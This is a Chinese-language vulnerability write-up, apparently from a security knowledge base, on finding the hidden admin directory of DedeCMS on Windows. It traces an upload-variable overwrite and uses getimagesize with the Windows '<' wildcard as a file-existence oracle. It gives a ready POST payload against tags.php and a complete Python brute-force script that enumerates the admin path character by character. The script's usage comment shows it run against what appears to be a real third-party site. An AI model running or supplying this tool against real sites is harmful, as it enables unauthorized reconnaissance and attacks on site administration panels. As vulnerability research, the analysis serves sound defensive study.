

Dedecms找后台
=============

一、漏洞简介
------------

仅针对windows系统

二、漏洞影响
------------

三、复现过程
------------

### 代码分析

进入正题

首先看核心文件common.inc.php 大概148行左右

    if($_FILES)
    {
        require_once(DEDEINC.'/uploadsafe.inc.php');
    }

uploadsafe.inc.php

    if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
    {
        exit('Request var not allow for uploadsafe!');
    }
    $$_key = $_FILES[$_key]['tmp_name']; //获取temp_name 
    ${$_key.'_name'} = $_FILES[$_key]['name'];
    ${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
    ${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
    if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    if(empty(${$_key.'_size'}))
    {
        ${$_key.'_size'} = @filesize($$_key);
    }
    $imtypes = array
    (
        "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
        "image/xpng", "image/wbmp", "image/bmp"
    );
    if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
    {
        $image_dd = @getimagesize($$_key); 
        //问题就在这里，获取文件的size，获取不到说明不是图片或者图片不存在，不存就exit upload.... ,利用这个逻辑猜目录的前提是目录内有图片格式的文件。
        if (!is_array($image_dd))
        {
            exit('Upload filetype not allow !');
        }
    }
    ......

注意\$\$\_key这一句，变量\$key取自于\$\_FILE，由于\$*FILE可控自然\$key也可控,此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现cfg*\|GLOBALS。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用\<\<通配符猜解后台目录，所以只要\$\$\_key参数可控就可以达到目的。

但在这之前有个if(!defined(\'DEDEADMIN\'))的判断,这个很好绕过设置tmp\_name为0或者1.jpg含.
就可以绕过。

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype
not allow !

举个例子

    <?php
    // ./dedecms/favicon.ico
    if(@getimagesize($_GET['poc'])){
        echo 1;
    }else {
        echo 0;
    }
    ?>
    get:
    http://localhost/test.php?poc=./d</favicon.ico
    返回：1

    http://localhost/test.php?poc=./a</favicon.ico
    返回：0

    http://localhost/test.php?poc=./de</favicon.ico
    返回：1

    http://localhost/test.php?poc=./ded</favicon.ico
    返回：1

    ........

### 复现

构造poc

    http://0-sec.org/tags.php

    post:

    dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif

Common.inc.php
是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

当目录存在点时候

当目录不存在点时候

### python脚本

    #!/usr/bin/env python
    #coding:utf-8
    import requests
    import itertools
    from random import choice
    import sys

    characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!#@-"
    back_dir = ""

    show_message = {}
    check_message = {}
    valid_file = []
    data = {
        "_FILES[tools][tmp_name]" : "./../{p}<</images/adminico.gif",
        "_FILES[tools][name]" : 0,
        "_FILES[tools][size]" : 0,
        "_FILES[tools][type]" : "image/gif"
    }

    headers = {
            
                            "User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101 Firefox/40.0",
                        "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                        "Accept-Language":"zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                        "Content-Type":"application/x-www-form-urlencoded",
                        "Connection":"Close"
    }

    class Bute_Login:
            global headers
            def __init__(self,target):
                    self.target = target

            def Check(self):
                    global data,check_message,valid_file
                    
                    File_Chek_List =['/tags.php','/include/vdimgck.php','/m/list.php','/m/view.php','/member/config.php','/plus/advancedsearch.php',
                                      '/plus/arcmulti.php','/plus/bookfeedback.php','/plus/bookfeedback_js.php','/plus/car.php','/plus/carbuyaction.php',
                                      '/plus/comments_frame.php','/plus/count.php','/plus/digg_ajax.php','/plus/digg_frame.php','/plus/digg_frame.php',
                                         '/plus/disdls.php','/plus/diy.php','/plus/download.php','/plus/erraddsave.php',
                                         '/plus/feedback.php','/plus/feedback_ajax.php','/plus/flink.php','/plus/flink.php','/plus/flink_add.php',
                                         '/plus/freelist.php','/plus/heightsearch.php','/plus/list.php','/plus/mytag_js.php',
                                         '/plus/posttocar.php','/plus/qrcode.php','/plus/recommend.php','/plus/rss.php','/plus/search.php','/plus/showphoto.php',
                                         '/plus/stow.php','/plus/view.php','/plus/vote.php','/special/index.php']
                    for filename in File_Chek_List:
                            try:
                                    res = requests.post(self.target+filename,data=data)
                                    #print self.target+filename+"--->"+res.text
                                    if "Upload filetype not allow !" in res.text and res.status_code == 200:
                                            valid_file.append(filename)
                            except:
                                    pass
                    #print valid_file
                    #print valid_file
                    if len(valid_file):
                            if "/tags.php" in valid_file:
                                    for i in valid_file:
                                            if i == "/tags.php":
                                                    return i
                            else:
                                    file_name = choice(valid_file)
                                    return file_name
                    else:
                            return False

            def Bute(self):
                    f_name = self.Check()
                    #print f_name
                    if f_name != False:
                            if f_name == "/tags.php":
                                    prefix = "./"
                            else:
                                    prefix = "./../"
                            flag = 0
                            global characters,back_dir,data,check_message
                            for num in range(1,7):        
                                    if flag:
                                            break
                                    for pre in itertools.permutations(characters,num):
                                            pre = ''.join(list(pre))
                                            data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=pre)
                                            print("testing",pre)
                                            r = requests.post(self.target+f_name,data=data)
                                            if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                                                    flag = 1
                                                    back_dir = pre
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                                                    break
                                            else:
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                            #print("[+] 前缀为：",back_dir)
                            flag = 0
                            for i in range(30):
                                    if flag:
                                            break
                                    for ch in characters:
                                            if ch == characters[-1]:
                                                    flag = 1
                                                    break
                                            data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=back_dir+ch)
                                            r = requests.post(self.target+f_name, data=data)
                                            if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                                                    back_dir += ch
                                                    #print("[+] ",back_dir)
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                                                    break
                                            else:
                                                    data["_FILES[tools][tmp_name]"] = "%s{p}<</images/adminico.gif"%prefix
                            show_message['Login_url'] = self.target+"/%s"%back_dir
                            
                            print show_message
                            return show_message
                    else:
                            check_message['Enumerate'] = False
                            print check_message
                            return check_message

    def main(url):
            N = Bute_Login(url)
            N.Bute()

    '''
    usage:        python .\dede_login.py -u [url]http://www.chuheautism.com[/url]
    output:
                    ('testing', 'a')
                    ('testing', 'b')
                    ('testing', 'c')
                    {'Login_url': 'http://www.chuheautism.com/cha'}

    '''

    if __name__ == '__main__':
            if sys.argv[1] == "-u":
                    main(sys.argv[2])
